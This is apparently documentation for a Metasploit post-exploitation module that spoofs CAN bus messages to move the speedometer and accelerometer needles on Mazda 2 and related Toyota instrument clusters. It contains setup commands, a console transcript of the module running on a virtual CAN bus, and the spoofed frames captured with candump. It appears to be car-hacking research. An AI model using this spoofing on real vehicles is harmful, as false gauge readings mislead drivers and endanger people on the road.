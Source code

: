 ## Introduction

mazda_ic_mover or Mazda 2 Instrument Cluster Accelorometer Mover sends CAN message to move the needle of the accelorometer and speedometer of the Mazda 2 instrument cluster. This works specifically for for Mazda 2 1.5 Skyactiv, Mazda Demio, Mazda 2 Demio, Scion iA, Toyota Yaris, Toyota Yaris R and Toyota Yaris iA.

This [research](https://twitter.com/rootconph/status/1171333590161879040) was done by Jay Turla of ROOTCON's Car Hacking Village.

## Verification Steps

Fire up virtual CAN bus:

1. `sudo modprobe can`
2. `sudo modprobe vcan`
3. `sudo ip link add dev vcan0 type vcan`
4. `sudo ip link set up vcan0`

You could also use Craig Smith's [Virtual Instrument Cluster Simulator](https://github.com/zombieCraig/ICSim).

Launch msf:

5. Start `msfconsole`
6. `use auxiliary/server/local_hwbridge`
7. `set uripath testbus`
8. `run`
9. `use auxiliary/client/hwbridge/connect`
10. `set targeturi testbus`

## Options

**CANBUS**
CAN Bus to perform scan on, defaults to connected bus

## Scenarios
A successful spoofing of an instrument cluster on a target vehicle:

```
msf auxiliary(client/hwbridge/connect) > run
[*] Running module against 127.0.0.1

[*] Attempting to connect to 127.0.0.1...
[*] Hardware bridge interface session 2 opened (127.0.0.1 -> 127.0.0.1) at 2019-09-11 04:59:40 -0700
[+] HWBridge session established
[*] HW Specialty: {"automotive"=>true}  Capabilities: {"can"=>true, "custom_methods"=>true}
[!] NOTICE:  You are about to leave the matrix.  All actions performed on this hardware bridge
[!]          could have real world consequences.  Use this module in a controlled testing
[!]          environment and with equipment you are authorized to perform testing on.
[*] Auxiliary module execution completed
msf auxiliary(client/hwbridge/connect) > sessions

Active sessions
===============

  Id  Name  Type                   Information  Connection
  --  ----  ----                   -----------  ----------
  2         hwbridge cmd/hardware  automotive   127.0.0.1 -> 127.0.0.1 (127.0.0.1)

msf auxiliary(client/hwbridge/connect) > sessions -i 2
[*] Starting interaction with 2...

hwbridge > run post/hardware/automotive/mazda_ic_mover CANBUS=vcan0

[*] Moving the accelorometer and speedometer...
hwbridge > run post/hardware/automotive/mazda_ic_mover CANBUS=vcan0

[*] Moving the accelorometer and speedometer...
hwbridge > run post/hardware/automotive/mazda_ic_mover CANBUS=vcan0

[*] Moving the accelorometer and speedometer...
hwbridge > run post/hardware/automotive/mazda_ic_mover CANBUS=vcan0

[*] Moving the accelorometer and speedometer...
hwbridge > run post/hardware/automotive/mazda_ic_mover CANBUS=vcan0

[*] Moving the accelorometer and speedometer...
```

You can use candump to verify the CAN messages being sent:

```
jjt@ubuntu:~/pentot/ICSim$ candump -c vcan0
  vcan0  202   [8]  60 01 60 60 60 60 60 00
  vcan0  202   [8]  60 01 60 60 60 60 60 00
  vcan0  202   [8]  60 01 60 60 60 60 60 00
  vcan0  202   [8]  60 01 60 60 60 60 60 00
```
